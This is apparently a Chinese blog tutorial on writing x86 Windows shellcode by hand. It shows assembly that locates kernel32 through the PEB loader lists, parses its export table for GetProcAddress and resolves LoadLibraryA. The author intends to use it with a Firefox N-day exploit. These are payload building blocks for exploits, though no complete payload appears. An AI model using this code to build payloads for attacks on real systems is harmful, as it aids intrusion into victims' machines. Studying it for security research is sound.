

X86-ShellCode编写1
条评论X86 ShellCode
之前在调试浏览器的POC时，最后总是需要一段ShellCode，自己不会写就得到处找。找到的ShellCode不合适，不如自己写。
这里来记录一下如何自己写一点简单的ShellCode。
环境
Win7 X64 ，Firefox32位，代码用 vc6.0 来写。
最后为了验证ShellCode能用，用一个Firefox的 N day 漏洞来试一试就可以。
为啥用VC写，额，其实VS也可以，就是vs可能有一些代码优化啥的，需要配置一下。
Kernel32
因为ShellCode是脱离环境的一段代码。所以，函数的使用都需要我们自己去dll中找。
怎么找。
使用 LoadLibrary 和 GetProcAddress ，这2个函数配合就能把我们想要的其他任何函数给找到。
那这里就得先获取 LoadLibrary 和 GetProcAddress。
根据MSDN，
LoadLibrary：https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya
GetProcAddress：https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress
知道这2个函数在 kernel32.dll 中。kernel32 作为系统 dll，每个进程都会加载，且加载地址都是固定的。
这里用Firefox和IE来验证一下。

当然，系统重启之后加载地址会变。如果是在XP下，没有ASLR情况下，系统Dll的地址就都是固定的。重启也是。
TEB/PEB
为了从Kernel32.dll中获取 LoadLibrary 和 GetProcAddress的地址。
因为每个进程都会加载 kernel32，那要先获取kernel32.dll的基地址。
获取kernel32.dll的过程可以分为：定位TEB与 PEB、定位Ldr、定位LDR_DATA_TABLE_ENTRY与确定kernel32.dll基址等4个步骤
先解释 TEB/PEB 是什么。
TEB，全称 Thread Environment Block，线程环境块，wiki
如果看到TIB(Thread Information Block )，它其实就是TEB，只是名字不同，
PEB，则是Process Environment Block，进程环境块，wiki
这里给大家分享一个网站：https://www.vergiliusproject.com/kernels ，记录了windows 各版本中 Kernel32 里的结构体。公开的，未公开的。当然，不一定包含了所有的。
TEB 在每个线程中都有这个它，结构体成员很多，下面列出一部分。1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18struct _TEB
{
struct _NT_TIB NtTib; //0x0
VOID* EnvironmentPointer; //0x1c
struct _CLIENT_ID ClientId; //0x20
VOID* ActiveRpcHandle; //0x28
VOID* ThreadLocalStoragePointer; //0x2c
struct _PEB* ProcessEnvironmentBlock; //0x30
ULONG LastErrorValue; //0x34
ULONG CountOfOwnedCriticalSections; //0x38
VOID* CsrClientThread; //0x3c
VOID* Win32ThreadInfo; //0x40
ULONG User32Reserved[26]; //0x44
ULONG UserReserved[5]; //0xac
VOID* WOW32Reserved; //0xc0
ULONG CurrentLocale; //0xc4
ULONG FpSoftwareStatusRegister; //0xc8
...
在上面偏移0x30处，可以看到 struct _PEB* ProcessEnvironmentBlock ，这就是PEB。说明PEB结构包含在TEB中。
TEB 通过寄存器 fs:[0] 可以取到。，所以 PEB 就是 fs:[0x30]1
mov eax, fs:[0x30]; Pointer to PEB
PEB部分结构体成员如下。1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22struct _PEB
{
UCHAR InheritedAddressSpace; //0x0
UCHAR ReadImageFileExecOptions; //0x1
UCHAR BeingDebugged; //0x2
union
{
UCHAR BitField; //0x3
struct
{
UCHAR ImageUsesLargePages:1; //0x3
UCHAR IsProtectedProcess:1; //0x3
UCHAR IsLegacyProcess:1; //0x3
UCHAR IsImageDynamicallyRelocated:1; //0x3
UCHAR SkipPatchingUser32Forwarders:1; //0x3
UCHAR SpareBits:3; //0x3
};
};
VOID* Mutant; //0x4
VOID* ImageBaseAddress; //0x8
struct _PEB_LDR_DATA* Ldr; //0xc
...
在偏移0xC的位置，存在struct _PEB_LDR_DATA* Ldr; ，这个_PEB_LDR_DATA结构体指针存储进程已加载的模块信息，就是包含了加载的DLL的信息。1
2获取 _PEB_LDR_DATA* Ldr
mov eax, [eax + 0xc]; Pointer to Ldr
_PEB_LDR_DATA结构如下。1
2
3
4
5
6
7
8
9
10
11
12
13//0x30 bytes (sizeof)
struct _PEB_LDR_DATA
{
ULONG Length; //0x0
UCHAR Initialized; //0x4
VOID* SsHandle; //0x8
struct _LIST_ENTRY InLoadOrderModuleList; //0xc
struct _LIST_ENTRY InMemoryOrderModuleList; //0x14
struct _LIST_ENTRY InInitializationOrderModuleList; //0x1c
VOID* EntryInProgress; //0x24
UCHAR ShutdownInProgress; //0x28
VOID* ShutdownThreadId; //0x2c
};
这里有3个_LIST_ENTRY结构体，它们每个的意义是不一样的。
这样来解释：1
2
3
4
5操作系统规定，每当为本进程装入一个dll模块时，
就要为其分配、创建一个_LDR_DATA_TABLE_ENTRY数据结构，
并将其挂入InLoadOrderModuleList和InMemoryOrderModuleList，
完成对这个模块的动态连接以后，就把它挂入InInitializationOrderModuleList队列，
以便依次调用模块的初始化函数。
_LDR_DATA_TABLE_ENTRY 是什么，给出它的部分成员。1
2
3
4
5
6
7
8
9
10
11
12
13
14//0x78 bytes (sizeof)
struct _LDR_DATA_TABLE_ENTRY
{
struct _LIST_ENTRY InLoadOrderLinks; //0x0
struct _LIST_ENTRY InMemoryOrderLinks; //0x8
struct _LIST_ENTRY InInitializationOrderLinks; //0x10
VOID* DllBase; //0x18
VOID* EntryPoint; //0x1c
ULONG SizeOfImage; //0x20
struct _UNICODE_STRING FullDllName; //0x24
struct _UNICODE_STRING BaseDllName; //0x2c
ULONG Flags; //0x34
USHORT LoadCount; //0x38
USHORT TlsIndex; //0x3a
_PEB_LDR_DATA中的3个字段InLoadOrderModuleList、InMemoryOrderModuleList、和InInitializationOrderModuleList，
它们分别指向_LDR_DATA_TABLE_ENTRY 结构体上的InLoadOrderModuleLinks、InMemoryOrderModuleLinks、和InInitializationOrderModuleLinks字段。
1 | 获取 InInitializationOrderLinks |
而偏移0x18 ，VOID* DllBase 就是dll在该进程的基地址。我们要的就是这个，但是要找的kernel32的。1
2获取 DllBase
mov esi, [eax + 0x8]; Poniter to DllBase
所以还要匹配Dll名字，也就是偏移0x2c struct _UNICODE_STRING BaseDllName 。1
2
3
4
5
6
7//0x8 bytes (sizeof)
struct _UNICODE_STRING
{
USHORT Length; //0x0
USHORT MaximumLength; //0x2
USHORT* Buffer; //0x4
};
这个结构里面偏移0x4 就是Dll的名字。1
2获取 BaseDllName
mov edi, [eax + 0x20]; Poniter to BaseDllName
得到dll名字后，还需要与kernel32.dll 比较，如果不是的话，就需要取下一个模块 InInitializationOrderLinks。把上面写的汇编，综合一起如下。1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16 mov eax, fs:[0x30]; Pointer to PEB
mov eax, [eax + 0xc]; Pointer to Ldr
mov eax, [eax + 0x1c]; Pointer to InInitializationOrderLinks
next_mod:
mov esi, [eax + 0x8]; Poniter to DllBase
mov edi, [eax + 0x20]; Poniter to BaseDllName
mov eax, [eax]; Poniter to next module InInitializationOrderLinks
xor ebx, ebx;
add_kerstr:
cmp dword ptr[edi + 0xc], 0x00320033; add module name "32"
jne next_mod;
cmp word ptr[edi + 0x10], 0x002e; "."
jne next_mod;
_found:
mov edi, esi; get kernel32.dll address
比较Dll名字的时候，字符串是unicode的，直接比较字符”32”，再比较一个字符”.”。这样就找到Kernel32地址。
GetProcAddress
有了kernel32的基地址，就可以根据导入表去寻找GetProcAddress的地址。
导入表在什么位置，这个需要了解PE文件结构。就不细说了。下面直接贴出汇编代码。1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26假设 edi = kernel32 基地址
_findGetProcAddr:
mov eax, [edi + 0x3c]; PE Header offset
mov edx, [edi + eax + 0x78]; Exports table offset
add edx, edi;
mov ecx, [edx + 0x18]; number of functions
mov ebx, [edx + 0x20]; offset of Function Name
add ebx, edi;
search:
dec ecx;
mov esi, [ebx + ecx * 4];
add esi, edi;
mov eax, 0x50746547; PteG("GetP")
cmp[esi], eax;
jnz search;
mov eax, 0x41636f72; Acor("rocA")
cmp[esi + 4], eax;
jnz search;
mov ebx, [edx + 0x24]; offset of Function Address
add ebx, edi; index of Function address
mov cx, [ebx + ecx * 2]; function index
mov ebx, [edx + 0x1c];
add ebx, edi;
mov eax, [ebx + ecx * 4];
add eax, edi;
mov ebx, eax; GetProcAddress -> ebx
这段代码就是找GetProcAddress的地址，找到后给了寄存器ebx。
LoadLibrary
有了GetProcAddress的地址，LoadLibrary 地址就可以偷懒，不用找，调用GetProcAddress去取。1
2
3
4
5
6
7
8
9
10
11GetProcAddress( handle , LoadLibrary );
需要 kernel32 的 handle ，handle就是kernel32 基地址，在前面的代码 edi = kernel32 基地址地址。
_getLoadLibraryA:
push 0;
push 0x41797261; Ayra("aryA");
push 0x7262694c; rbiL("Libr");
push 0x64616f4c; daoL("Load");
push esp; esp = "LoadLibraryA"
push edi; edi = handle
call ebx; eax = LoadLibrary
最后LoadLibrary地址返回给寄存器eax。